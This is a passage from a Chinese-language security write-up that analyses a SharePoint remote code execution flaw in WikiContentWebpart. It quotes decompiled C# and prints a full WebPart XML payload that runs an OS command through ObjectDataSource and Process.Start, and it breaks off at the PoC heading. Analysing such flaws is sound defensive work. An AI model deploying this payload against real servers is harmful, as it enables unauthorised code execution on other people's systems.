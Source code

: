 因此，我们的页面将具备这些属性：`compilationmode=Always`、`allowServerSideScript=true`以及`allowUnsafeControls=true`。我们再仔细分析一下`WikiContentWebpart`：

```
// Microsoft.SharePoint.WebPartPages.WikiContentWebpart 
protected override void CreateChildControls() 
`{` 
    if (!this.Visible || this.Page == null) 
    `{` 
        return; 
    `}` 
    if (this.Page.AppRelativeVirtualPath == null) 
    `{` 
        this.Page.AppRelativeVirtualPath = "~/current.aspx"; 
    `}` 
    Control obj = this.Page.ParseControl(this.Directive + this.Content, false); 
    this.AddParsedSubObject(obj); 
`}`
```

这意味着来自参数（`Directive`以及`Content`）的内容将由`ParseControl(text2, false)`解析，第二个参数（`false`）将强制服务器使用`PageParserFilter`，该过滤器将与`PageParserSettings.GhostedPageDefaultSettings`配合使用。

由于`ParseControl()`方法不会引发编译过程，因此我们无法直接指定.NET代码。然而，我们可以使用SharePoint中的危险控件来调用任意方法，获得代码执行权限。比如，可以运行任意OS命令的`WikiContentWebpart`配置如下所示：

```
&lt;?xml version="1.0" encoding="utf-8"?&gt; 
&lt;WebPart xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.microsoft.com/WebPart/v2"&gt; 
  &lt;Title&gt;Wiki Content Web Part RCE&lt;/Title&gt; 
  &lt;Description&gt;Executes Arbitrary Code on SharePoint Server&lt;/Description&gt; 
  &lt;IsIncluded&gt;true&lt;/IsIncluded&gt; 
  &lt;Assembly&gt;Microsoft.SharePoint, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c&lt;/Assembly&gt; 
  &lt;TypeName&gt;Microsoft.SharePoint.WebPartPages.WikiContentWebpart&lt;/TypeName&gt; 
  &lt;Content&gt;&lt;![CDATA[ 
&lt;asp:ObjectDataSource ID="ObjectDataSource1" runat="server" SelectMethod="Start" 
   TypeName="system.diagnostics.process" &gt; 
     &lt;SelectParameters&gt; 
        &lt;asp:Parameter Direction="input" Type="string" Name="fileName" DefaultValue="cmd"/&gt; 
        &lt;asp:Parameter Direction="input" Type="string" Name="arguments" DefaultValue="/c echo pwned &amp;gt; c:/windows/temp/RCE_PoC.txt"/&gt; 
     &lt;/SelectParameters&gt; 
&lt;/asp:ObjectDataSource&gt; 
&lt;asp:ListBox ID="ListBox1" runat="server" DataSourceID = "ObjectDataSource1" &gt;&lt;/asp:ListBox&gt;                   
End]]&gt;&lt;/Content&gt; 
&lt;/WebPart&gt;
```



## 0x03 PoC
